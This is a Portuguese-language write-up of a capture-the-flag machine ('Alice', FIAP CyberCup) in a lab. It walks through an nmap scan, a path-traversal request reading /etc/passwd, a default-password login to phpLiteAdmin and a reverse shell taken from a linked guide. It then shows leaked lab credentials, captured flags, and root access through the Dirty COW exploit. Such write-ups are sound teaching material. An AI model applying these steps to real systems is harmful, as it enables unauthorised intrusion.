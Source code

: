 ```yaml
---
title: Alice
category: FIAP CyberCup
---
```


## Enumeração

- Executado Nmap

```plaintext
# Nmap 7.80 scan initiated Sun Jun 28 00:32:09 2020 as: nmap -sC -sV -Pn -oA quick 10.2.0.131
Nmap scan report for 10.2.0.131
Host is up (0.0022s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Alice's Shop
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          45939/tcp   status
|   100024  1          51196/tcp6  status
|   100024  1          51294/udp   status
|_  100024  1          53359/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 00:32:23 2020 -- 1 IP address (1 host up) scanned in 13.82 seconds

```

### 80/TCP

- Ao acessar a porta 80/TCP identificado que existe um website apache em execução. DUrante navegação notado que as urls poderiam ser vulneraveis à LFI, o que foi comprovado na requisição abaixo

```http
GET /view.php?page=../../etc/passwd HTTP/1.1
Host: 10.2.0.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

- Ao tentar importar logs do apache como /var/log/apache2/access.log, dentre outros e obtido insucesso, verificado que nao seria possivel utilizar do LFI para obter RCE diretamente via log poisioning.

- Ao dar continuidade, executado gobuster enumerando outros possíveis diretorios no servidor, o que encontrou a pasta dbadmin que executava a aplicação phpLiteAdmin v1.9.3, que permitiu acesso com a senha padrão **admin**, encontrada por dedução

```plaintext
----------------------------------------------------------------------------------- ---------------------------------
  Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection                                               | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                                        | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                     | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                      | php/webapps/39714.txt
----------------------------------------------------------------------------------- --------------------------------
```

- No phpLiteAdmin, executado procedimentos descritos em [https://v3ded.github.io/ctf/zico2.html](https://v3ded.github.io/ctf/zico2.html) onde através de um valor padrão era obtido um shell reverso a partir de um payload publicado via http server local

- Através do shell reverso, obtido flag user.txt como o usuário **alice** na pasta /home/zico

```plaintext
www-data@shop:/home/zico$ cat user.txt 
j39d8ajeoc0paz63lmndr0wusa823nu7
www-data@shop:/home/zico$ 
```

- Executado comando para enumerar arquivos com permissão de leitura no diretorio /home. Notado que haviam arquivos de configuração do wordpress e joomla.

```plaintext
www-data@shop:/tmp$ find /home -type f -readable 2>/dev/null                                                         
/home/zico/bootstrap.zip                                                                                             
/home/zico/startbootstrap-business-casual-gh-pages/img/slide-1.jpg                                                   
/home/zico/startbootstrap-business-casual-gh-pages/img/slide-2.jpg                                                   
/home/zico/startbootstrap-business-casual-gh-pages/img/bg.jpg                                                        
/home/zico/startbootstrap-business-casual-gh-pages/img/intro-pic.jpg 
```

- Encontrado no arquivo de configuração **/home/zico/wordpress/wp-config.php** as credenciais de banco de dados do usuário **alice**, que eram tambem utilizadas para login com a conta no linux

```plaintext
alice:fiap3raaz
```

- Ao enumerar, notado que maquina é vulnervel ao dirtycow. Executado exploit **40839** do exploitdb e logado como firefart, obtendo flag root.txt

```plaintext
firefart@shop:~# cat /root/root.txt                                                                                  │zurc@kali:/dcruz/fiap/cybercup/alice/exploit$ 
983jlie39ksc0aslemn3378ad0u                                                                                        
firefart@shop:~#           
```
